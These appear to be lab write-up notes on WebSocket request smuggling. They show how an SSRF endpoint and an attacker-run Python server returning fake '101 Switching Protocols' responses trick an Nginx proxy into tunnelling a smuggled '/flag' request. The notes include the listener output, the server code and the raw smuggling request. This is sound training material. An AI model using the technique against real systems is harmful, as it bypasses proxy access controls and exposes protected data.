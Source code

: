 So far, we've been working with a proxy that won't check the web server's response to determine whether the WebSocket upgrade was successful. In this task, we'll replace the vulnerable Varnish proxy with an Nginx proxy that checks responses before tunnelling requests through a WebSocket connection. The backend application will still have the `/socket` endpoint enabled with WebSockets and the `/flag` endpoint as our target. The new application can be accessed via `http://MACHINE_IP:8002/`.

First, let's try running the payload we used in the previous task to see if it works:
	![](Pasted%20image%2020250215034145.png)

Notice how Nginx won't leak the flag despite getting a `426` response for the initial WebSocket upgrade attempt. Since Nginx is checking the response code of the upgrade, it can determine that no valid WebSocket connection was established; therefore, it won't allow us to smuggle the `/flag` request.


## Tricking the Proxy
Since we can't just smuggle requests anymore, we need to find a way to trick the proxy into believing a valid WebSocket connection has been established. This means we need to somehow force the backend web server to reply to our upgrade request with a fake `101 Switching Protocols` response without actually upgrading the connection in the backend.

While we won't be able to do this for all applications, if our target app has some vulnerability that allows us to proxy requests back to a server we control as attackers, we might be able to inject the `101 Switching Protocols` response to an arbitrary request. In these special cases, we should be able to smuggle requests through a fake WebSocket connection again.
	![](Pasted%20image%2020250215034337.png)

## Leveraging SSRF
In this task's application, we will take advantage of an SSRF vulnerability to simulate a fake WebSocket upgrade. After a quick inspection, we can see that the application allows us to test the status of a URL. Each time we input a URL, the server will make a request to `http://MACHINE_IP:8002/check-url?server=<url>` and return the status code from the corresponding response:
	![](Pasted%20image%2020250215034452.png)

We can use `nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:

```shell
nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on MACHINE_IP 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a `101` status, allowing us to fake a WebSocket upgrade.

### Attacker's Web Server
We can quickly set up a web server that responds with status 101 to every request with the following Python code:
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command. This should spin up a web server on port 5555 that will reply with a 101 status code to any request.

```shell
python3 myserver.py 5555
```


### Faking a WebSocket
We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to **/check-url** against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: MACHINE_IP:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: MACHINE_IP:8002
```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp:
	![](Pasted%20image%2020250215035020.png)

Explanation: 
	1) SSRF must be present as we have the to trick the backend server to make request against our malicious server
	2) we have to configure our malicious server to respond with 101 (upgrading sockets)
	3) the SSRF request will be forwarded to proxy and proxy will forward it to the backend.
	4) backend will establish the connection with our server and will forward the malicious response to proxy which will check only the status code (101)
	5) tunneling between backend and client is established and proxy will now forward the backend server response with sensitive data (in this way we are bypassing the ngnix proxy restriction)

**Note:**
	Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.


**More info:**
- https://github.com/0ang3el/websocket-smuggle